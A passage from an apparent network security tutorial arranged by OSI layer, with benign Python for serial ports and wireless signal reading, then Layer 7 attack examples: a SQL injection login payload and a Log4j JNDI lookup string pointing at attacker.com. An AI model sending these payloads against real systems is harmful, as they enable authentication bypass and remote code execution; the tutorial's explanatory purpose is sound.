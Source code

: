 ### Technical Implementation Example
```python
# Serial communication example
import serial

def serial_communication(port: str, baudrate: int):
    ser = serial.Serial(
        port=port,
        baudrate=baudrate,
        parity=serial.PARITY_NONE,
        stopbits=serial.STOPBITS_ONE,
        bytesize=serial.EIGHTBITS
    )
    return ser

# Signal strength monitoring
def monitor_signal_strength(interface: str) -> float:
    try:
        with open(f'/sys/class/net/{interface}/wireless/link') as f:
            return float(f.read())
    except:
        return 0.0
```

### Security Considerations
- Physical access control
- Electromagnetic interference prevention
- Wiretapping prevention
- Cable security
- Power security

## Layer-by-Layer Security Analysis

### Layer 7 - Application Layer

#### Modern Threats and Attack Vectors
1. **API Security Threats**
   ```http
   # API abuse example
   POST /api/v1/authenticate HTTP/1.1
   Content-Type: application/json
   
   {"username": "' OR '1'='1", "password": "anything"}
   ```

2. **Modern Web Application Attacks**
   ```javascript
   // Log4j vulnerability exploitation example
   ${jndi:ldap://attacker.com/exploit}
   ```
